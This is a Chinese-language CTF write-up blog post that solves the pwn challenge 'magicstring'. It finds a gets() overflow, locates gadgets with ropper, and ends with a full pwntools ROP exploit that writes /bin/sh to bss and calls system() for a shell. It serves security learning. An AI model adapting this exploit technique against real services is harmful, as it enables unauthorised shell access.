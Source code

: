 ```yaml
---
layout: post
title:  "记一道简单的pwn解题过程"
date:   2020-12-16
categories: pwn gets system stackoverflow
---
```


记录一下一道简单的pwn题目。 可以在这[下载elf文件](/note/assets/pwn/magicstring)  

先用gdb调试一下elf文件，只有一个简单的main函数  

![docs](/note/assets/magicstring-asm.png)  

看汇编代码可以发现，64位程序，调用了system和gets函数，这里gets函数是可以直接溢出的。程序开始抬高了栈0x2a0个字节，main函数栈帧为672字节。然后程序保护项只开了NX保护，意味着不能不能通过栈去ret2shellcode。  
这里有了溢出点和system函数，最重要的两个因素。 但是还差一个shell和一个可控的参数传递。  
众所周知，64位程序传参需要用到寄存器，依次是rdi、rsi、rdx、rcx、r8、r9，而32位直接通过栈就可以了，所以需要找到可控的rdi寄存器
这里开始构造ROP链，推荐一款工具叫 `ropper`，跟ROPGadget差不多，但是总感觉ropper更好用。  
找一下rip和sh：
```bash
$ ropper  --file magicstring --search 'pop rdi|ret'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi|ret

[INFO] File: magicstring
0x0000000000400733: pop rdi; ret; 
0x0000000000400532: ret 0x200a; 
0x0000000000400649: ret 0x8b48; 
0x00000000004005b5: ret 0xc148; 
0x00000000004004d1: ret; 

$ ropper --file magicstring --string '/bin/sh'


Strings
=======

Address  Value  
-------  -----  

$ ropper --file magicstring --string 'sh'


Strings
=======

Address  Value  
-------  -----  

$ ropper --file magicstring --string '$0'


Strings
=======

Address  Value  
-------  -----  

$ 
```
可以找到rdi：0x0000000000400733， 但是遗憾的是找不到sh和$0。  
所以麻烦点，只能通过写bss段，然后再把bss弹到rdi里面去实现getshell了  
通过三次gets调用达到getshell，第一次将bss写入rdi，第二次正常执行gets将/bin/sh写入bss，第三次写bss到rdi再调用system。  

第一次
```python
payload = b'A' * offset + rbp + pop_rdi + bss + gets + main
```

第二次
```python
payload = b'/bin/sh\x00'
```

第三次
```python
payload = b'A' * offset + rbp + pop_rdi + bss + system
```

最终exp为：
```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

#context.log_level='debug'
offset = 0x2a0

pop_rdi = p64(0x0000000000400733)
gets = p64(0x400510)
system = p64(0x4004f0)
main = p64(0x400661)
rbp = p64(0x7fffffffe040)

p = process('magicstring')
print(p.recv())
elf = ELF('magicstring')
bss = p64(elf.bss()+0x30)
payload = b'A' * offset + rbp + pop_rdi + bss + gets + main

p.sendline(payload)
#gdb.attach(p)
p.sendline(b'/bin/sh\x00')
payload2 = b'A' * offset + rbp + pop_rdi + bss + system
p.sendline(payload2)
print(p.recv())
p.interactive()
```

![docs](/note/assets/magicstring-exp.png)  
